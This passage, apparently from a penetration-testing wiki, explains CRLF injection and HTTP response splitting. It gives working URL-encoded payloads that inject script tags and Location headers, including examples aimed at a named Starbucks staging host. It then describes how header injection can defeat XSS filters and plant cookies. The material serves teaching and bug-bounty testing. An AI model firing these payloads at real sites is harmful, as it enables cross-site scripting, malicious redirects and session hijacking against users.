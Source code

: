 The value of the header is set via a get parameter called "name". If no URL encoding is in place and the value is directly reflected inside the header it might be possible for an attacker to insert the above mentioned combination of CRLFCRLF to tell the browser that the request body begins. That way he is able to insert data such as XSS payload, for example:

```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

The above will display an alert window in the context of the attacked domain.

#### An example of HTTP Response Splitting leading to Redirect

{% embed url="https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62" %}

Browser to:

```
/%0d%0aLocation:%20http://myweb.com
```

And the server responses with the header:

```
Location: http://myweb.com
```

**Other example: (from** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**)**

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

#### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server:

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}

### HTTP Header Injection

#### Description

By exploiting a CRLF injection an attacker can also insert HTTP headers which could be used to defeat security mechanisms such as a browser's XSS filter or the same-origin-policy. This allows the attacker to gain sensitive information like CSRF tokens. He can also set cookies which could be exploited by logging the victim in the attacker's account or by exploiting otherwise unexploitable [cross-site scripting (XSS) vulnerabilities](https://www.netsparker.com/blog/web-security/cross-site-scripting-xss/).
